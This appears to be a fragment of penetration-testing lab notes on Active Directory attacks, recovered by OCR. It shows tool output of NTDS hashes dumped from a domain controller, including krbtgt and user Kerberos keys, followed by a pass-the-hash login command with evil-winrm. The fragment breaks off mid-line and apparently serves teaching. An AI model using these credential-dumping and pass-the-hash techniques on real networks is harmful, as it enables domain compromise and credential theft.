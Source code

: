 ```bash
SMB         <IP>    445     DC01           krbtgt:aes128-cts-hmac-sha1-96:1fe3f211d383564574609eda482b1fa9
SMB         <IP>    445     DC01           krbtgt:des-cbc-md5:9bd5017fdcea8fae
SMB         <IP>    445     DC01           inlanefrieght.local\jim:aes256-cts-hmac-sha1-96:4b0618f08b2ff49f07487cf9899f2f7519db9676353052a61c2e8b1dfde6b213
SMB         <IP>    445     DC01           inlanefrieght.local\jim:aes128-cts-hmac-sha1-96:d2377357d473a5309505bfa994158263
SMB         <IP>    445     DC01           inlanefrieght.local\jim:des-cbc-md5:79ab08755b32dfb6
SMB         <IP>    445     DC01           WIN-IAUBULPG5MZ:aes256-cts-hmac-sha1-96:881e693019c35017930f7727cad19c00dd5e0cfbc33fd6ae73f45c117caca46d
SMB         <IP>    445     DC01           WIN-IAUBULPG5MZ:aes128-cts-hmac-sha1-
     [+] Dumped 61 NTDS hashes to /home/bob/.cme/logs/DC01_10.10.15.30_2022-01-19_133529.ntds of which 15 were added to the database
```
# Cracking Hashes & Gaining Credentials

## Pass-the-Hash with Evil-WinRM Example
```bash
Attacker@xxx[/xxx]$ evil-winrm -i <IP>  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
